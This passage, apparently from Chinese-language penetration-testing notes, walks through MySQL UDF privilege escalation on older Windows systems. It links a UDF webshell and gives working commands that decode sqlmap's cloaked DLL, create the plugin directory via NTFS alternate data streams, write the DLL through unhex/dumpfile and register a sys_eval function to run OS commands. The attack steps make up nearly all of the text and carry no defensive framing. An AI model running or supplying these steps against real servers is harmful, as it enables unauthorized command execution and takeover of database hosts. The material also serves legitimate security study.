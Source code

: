*   利用条件
    
    *   系统版本：Win2000、WinXP、Win2003
    *   具有对 MySQL 的`insert/delete`权限的账号，用以创建和抛弃函数。最好是 root，或具备 root 账号所具备的权限的其它账号。

##### UDF 木马提权

*   已有 Webshell 的情况下可以直接上 [UDF 马](https://github.com/gwjczwy/gwjczwy.github.io/blob/master/img/mysql%E6%8F%90%E6%9D%83/udf.php)

##### UDF 手工提权

*   获取 UDF：将`sqlmap\data\udf\`中找到对应系统的`dll_`文件，复制到`sqlmap\extra\cloak\`，输入以下命令即可得到
    *   SQLMap 自带的 shell 及一些二进制文件，为了防止被误杀都经过异或方式编码，不能直接使用，需要利用 SQLMap 自带的解码工具`cloak.py`进行解码

```
$ python cloak.py -d -i lib_mysqludf_sys.dll_
```

*   寻找目录
    *   `MySQL<5.1`，UDF 导出到系统目录`c:/windows/system32/`
    *   `MySQL>5.1`，UDF 导出到 MySQL 安装目录`lib\plugin\`目录 (该目录默认不存在，需手动创建)

```
-- 寻找MySQL目录
mysql> select @@basedir;
mysql> show variables like '%plugin%';

-- 利用NTFS ADS创建目录,有Webshell的情况下可直接菜刀创建
mysql> select '123' into dumpfile 'C:\\phpStudy\\MySQL\\lib::$INDEX_ALLOCATION'; 
mysql> select '123' into dumpfile 'C:\phpStudy\\MySQL\\lib\\plugin::$INDEX_ALLOCATION';
```

*   导出 UDF：直接上传没有权限，可通过 MySQL 语句写入

```
-- 在【本地】以二进制读取UDF并转换十六进制
mysql> select hex(load_file("C:\\udf.dll")) into dumpfile 'C:\\myudf.txt';

-- 在【靶机】写入UDF,这里将UDF文件命名为myudf.dll
mysql> select unhex ('十六进制UDF') into dumpfile "C:\\Program Files\\MySQL\\lib\\plugin\\myudf.dll";

-- 出现secure-file-priv相关报错，需要修改mysql配置文件my.ini或mysql.cnf
-- secure_file_priv=/ # 允许导入到任意路径
```

*   利用 UDF 创建用户自定义函数

```
mysql> create function sys_eval returns string soname 'myudf.dll';
```

*   利用函数执行命令

```
mysql> select sys_eval("whoami")
```

#### MOF 提权
